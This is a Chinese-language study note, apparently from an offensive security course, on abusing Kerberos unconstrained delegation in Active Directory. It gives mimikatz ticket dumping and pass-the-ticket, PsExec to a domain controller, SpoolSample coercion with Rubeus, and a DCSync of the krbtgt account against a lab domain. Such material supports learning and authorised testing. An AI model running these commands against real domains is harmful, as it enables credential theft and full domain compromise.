 # Kerberos Delegation

## 16.2.1 Unconstrained Delegation 非约束委派

Kerberos认证
1. 域用户登录后，KDC会返回TGT
2. 用户使用Kerberos认证其他服务时，会拿着TGT向KDC申请一张TGS
3. 用户拿着返回的TGS向服务进行验证，验证通过即可使用服务

可是后端服务如数据库也使用Kerberos，web服务无法复用TGS访问后端。

非约束委派认证
1. 域用户登录后，KDC会返回TGT
2. 用户使用非约束委派认证其他服务时，使用TGT向KDC获取TGS票据
3. KDC会返回带有Foward Flag/Session Key的TGT票据 和 TGS票据
4. 用户客户端会将TGT和Session合成到TGS中再发送给服务端
5. 服务端认证后即可使用服务。

所以，我们可以冒用这个Forwardable TGT去访问其他服务
1. 发现appsrv01 设置为unconstrained委派
```cmd
Get-DomainComputer -Unconstrained
```

2. 使用mimikatz 找到标记有forwarded的ticket 做PTT
```cmd
privilege::debug
sekurlsa:tickets

sekurlsa::tickets /export
kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
```

3. 使用psexec 登录
```
C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd
```


## 16.2.2 I Am a Domain Controller

上一章，获取用户ticket，需要用户交互才能获取Forwardflag TGSs
这张使用SpoolSample 打印机服务

使用Rubeus在攻击机器做监听，然后发起SpoolSample服务
```
Rubeus.exe monitor /interval:5 /filteruser:CDC01$

SpoolSample.exe CDC01 APPSRV01
```
拿到票据后，使用Rubeus做ptt
```
Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo

Mimikatz # lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```
